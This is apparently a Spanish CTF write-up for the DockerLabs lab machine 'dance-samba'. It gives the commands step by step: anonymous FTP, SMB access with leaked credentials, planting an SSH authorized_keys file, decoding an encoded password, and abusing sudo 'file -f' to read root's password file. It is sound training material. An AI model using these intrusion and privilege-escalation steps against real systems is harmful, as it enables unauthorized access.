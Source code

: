 Maquina dance-samba de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dock](./imagenes/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 13:56:49 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-08-26T16:57:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 13:57:09 2024 -- 1 IP address (1 host up) scanned in 20.41 seconds

```

Vemos que el puerto `21`, `22`, `443` y `139` están abiertos. Sabiendo eso y que no está abierto el puerto 80, usaremos `ftp` para conectarnos de manera anonima, ya que nmap nos dice `ftp-anon: Anonymous FTP login allowed (FTP code 230)`. Para conectarlo simplemente ejecutamos 

```css
ftp 172.17.0.2
```

ponemos de nombre `anonymous` y dejamos la contraseña vacia y ya estariamos dentro del ftp.

Haciendo un `ls` vemos lo siguiente:

```css
ftp> ls
229 Entering Extended Passive Mode (|||44635|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
226 Directory send OK.
ftp> 
```

por lo que ahora ponemos `get nota.txt` y salimos. En nuestra máquina atacante leemos el archivo .txt y vemos lo siguiente:

```css
I don't know what to do with Macarena, she's obsessed with donald.
```

Por lo que tenemos un posible usuario con contraseña: `macarena:donald`.

Luego de probar si nos sirve para el ssh sin éxito, ejecuto:

```css
smbmap -u macarena -p donald -H 172.17.0.2 
```

```css
Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	macarena                                          	READ, WRITE	
	IPC$                                              	NO ACCESS	IPC Service (f9bd436dad44 server (Samba, Ubuntu))
```

Como vemos hay una carpeta llamada "macarena", entonces ahora nos conectaremos con `smbclient` ejecutando:

```css
smbclient //172.17.0.2/macarena -U macarena -W WORKGROUP 
```

ponemos la contraseña y listo. Ahora como vemos estamos en la carpeta `/home/` de el usuario macarena, por lo que podriamos generar una clave ssh en nuestra maquina atacante y meterla en la máquina victima como `authorized_keys`.

# INTRUSION

Con toda la informacion que tenemos, iremos a nuestra máquina atacante y ejecutaremos  `ssh-keygen`, esto nos generará una clave privada y una clave publica en nuestra carpeta `.ssh`. Volvemos al smb y creamos una carpeta `.ssh` en la maquina victima ejecutando `mkdir .ssh`, nos metemos y ejecutamos lo siguiente:

```css
put /home/kali/.ssh/id_rsa.pub ./authorized_keys
```

 Una vez hecho eso, iremos a nuestra maquina atacante, a la carpeta ".ssh", y le daremos permisos de ejecución al archivo `id_rsa` ejecutando `chmod 600 id_rsa`. Ahora simplemente ejecutamos `ssh -i id_rsa macarena@172.17.0.2` y *ya estaremos dentro.*

# ESCALADA DE PRIVILEGIOS

### macarena

Siendo el usuario macarena, ejecutamos un `sudo -l` pero nos pide la contraseña, por lo que no podemos ejecutar nada sin contraseña. Luego de buscar un rato, veo un archivo llamado "hash" en `/home/secret/hash` y una password en `/opt/password.txt`, pero la password no la puedo leer. Si nos fijamos bien, el hash no es realmente un hash, sino mas parecido a un `base64` o `base32`, ya que si nos fijamos tiene esto:

```css
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Por lo que iremos a la página [CyberChef](https://gchq.github.io/CyberChef/), y ponemos `from base32` y pegamos el "hash". Esto nos dejará un mensaje realmente en `base64`:

```css
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Como vemos, esto realmente si parece `base64` por lo que ejecutamos en la máquina un `echo "c3VwZXJzZWN1cmVwYXNzd29yZA==" | base64 -d` y listo, tendremos una contraseña que dice:

```css
supersecurepassword
```

Por lo que ahora si ejecutamos un `sudo -l` y vemos que si es la contraseña de macarena, y nos permite ejecutar el binario "File" como root, por lo que simplemente buscamos en [GTFOBins](https://gtfobins.github.io/) y buscamos el binario file. Como vemos, podemos leer archivos del sistema como root, por lo que simplemente ejecutaremos lo siguiente:

```css
LFILE=/opt/password.txt
```

y luego ejecutamos:

```css
sudo file -f $LFILE
```

```css
root:rooteable2
```

Como vemos, ya tenemos la contraseña de root, por lo que ponemos `su` y la contraseña y *ya seremos root*:

![root](./imagenes/root.png)

Gracias por leer...